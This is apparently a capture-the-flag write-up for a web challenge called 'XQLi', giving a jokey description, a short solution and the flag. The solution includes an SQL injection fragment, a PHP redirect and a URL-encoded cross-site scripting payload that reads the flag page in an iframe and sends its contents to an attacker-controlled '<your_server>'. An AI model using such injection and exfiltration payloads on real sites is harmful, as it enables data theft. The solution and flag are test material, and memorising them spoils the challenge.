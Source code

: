 # XQLi

**Description:**  What is my perfect crime? I break into Tiffany's at midnight. Do I go for the vault? No, I go for the chandelier. It's priceless. As I'm taking it down, a woman catches me. She tells me to stop. It's her father's business. She's Tiffany. I say no. We make......  
All that and he locked himself out the website that had a secret code to break into the place :/ . Help him find the code?

**Author:** [Az3z3l](https://twitter.com/Az3z3l)

**Short Solution:** 
 - For SQLI: `lcase('inKypinKy') as id from dual`
 - Creating UID: Host a webpage that has the following php code `header("location:http://web/user.php?session=1111-22222-1234&sub=submit%22);`
 - Retrieving Flag: Host a webpage that has the following php code `header("location:http://web/flag.php?session%3D%22%3E%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22<your_server>%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit%22%29%3B`


**Flag:** inctf{p3op13_persons_c7f_pe0p13_9986000}
